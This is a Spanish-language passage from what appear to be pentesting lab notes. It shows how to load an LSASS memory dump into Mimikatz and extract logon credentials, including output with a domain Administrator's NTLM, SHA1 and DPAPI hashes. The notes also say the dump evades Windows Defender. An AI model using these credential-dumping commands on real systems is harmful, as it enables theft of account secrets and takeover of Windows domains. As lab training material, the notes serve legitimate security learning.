 <figure><img src="../../../.gitbook/assets/image (171).png" alt=""><figcaption></figcaption></figure>

Y le daremos `Abrir ubicación del archivo`, por lo que veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (172).png" alt=""><figcaption></figcaption></figure>

Y esto no salta `Windows Defender` ni ningun antivirus por alguna razon.

Ahora lo que vamos hacer es pasarnos este archivo a nuestra maquina `kali`.

Pero si nos volvemos a `Windows` lo podremos hacer en `Windows` con `Mimikatz`:

Estando en `Mimikatz`:

```powershell
sekurlsa::minidump C:\Users\empleado1\Desktop\lsass.DMP
```

Info:

```
Switch to MINIDUMP : 'C:\Users\empleado1\Desktop\lsass.DMP'
```

Ahora lo que haremos sera volcar el `lsass` del archivo este que le hemos especificado antes:

```powershell
sekurlsa::logonPasswords
```

Info:

```
Opening : 'C:\Users\empleado1\Desktop\lsass.DMP' file for minidump...

Authentication Id : 0 ; 3253663 (00000000:0031a59f)
Session           : Interactive from 0
User Name         : Administrator
Domain            : CORP
Logon Server      : DC01
Logon Time        : 19/01/2025 9:52:13
SID               : S-1-5-21-3352250647-938130414-2449934813-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CORP
         * NTLM     : a87f3a337d73085c45f9416be5787d86
         * SHA1     : 34957e9ba3455a4a99d722b48693ac1123ba5dba
         * DPAPI    : b937fc9669fa922df0050d0d2f6d5de4
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : CORP.LOCAL
         * Password : (null)
        ssp :
        credman :
```